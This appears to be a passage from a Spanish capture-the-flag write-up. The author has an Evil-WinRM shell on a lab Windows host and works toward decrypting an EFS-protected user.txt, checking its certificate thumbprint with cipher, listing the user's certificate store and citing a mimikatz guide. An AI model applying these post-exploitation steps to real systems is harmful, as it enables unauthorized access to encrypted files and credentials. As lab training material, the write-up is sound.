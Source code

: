 ```null
*Evil-WinRM* PS C:\Users\tolu\Documents> type C:\Users\tolu\Desktop\user.txt
Access to the path 'C:\Users\tolu\Desktop\user.txt' is denied.
At line:1 char:1
+ type C:\Users\tolu\Desktop\user.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\tolu\Desktop\user.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\tolu\Documents> 
```

A la hora de enfrentarse a un Encrypted File System, lo más importante no es acceder al sistema como el usuario propietario, si no poseer su credencial. Por eso no tiene sentido que le cambiara la contraseña.

En esta [Guía](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files) explican como realizar todo el proceso con mimikatz paso a paso

Con cipher puedo ver el thumprint asocidado para ese archivo

```null
PS C:\Users\tolu\Desktop> cipher /c user.txt

 Listing C:\Users\tolu\Desktop\
 New files added to this directory will not be encrypted.

E user.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    HELPLINE\tolu [tolu(tolu@HELPLINE)]
    Certificate thumbprint: 91EF 5D08 D1F7 C60A A0E4 CEE7 3E05 0639 A669 2F29 

  No recovery certificate found.

  Key information cannot be retrieved.

The specified file could not be decrypted.
```

Me dirijo a la ruta donde se encuentran los certificados de tolu

```null
PS C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates> dir


    Directory: C:\Users\tolu\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a--s-       12/29/2018   9:21 PM           1038 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29
```
